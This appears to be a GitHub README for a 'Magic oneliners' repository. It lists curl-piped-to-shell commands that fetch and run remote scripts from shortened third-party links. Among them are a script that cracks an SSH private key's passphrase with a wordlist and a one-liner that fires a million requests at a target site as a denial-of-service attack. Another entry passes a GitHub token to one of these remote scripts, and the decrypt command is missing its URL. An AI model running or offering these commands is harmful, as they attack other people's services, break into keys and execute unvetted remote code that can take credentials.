 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/service_templated)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

## License

This project is licensed under the GPL-3 license.
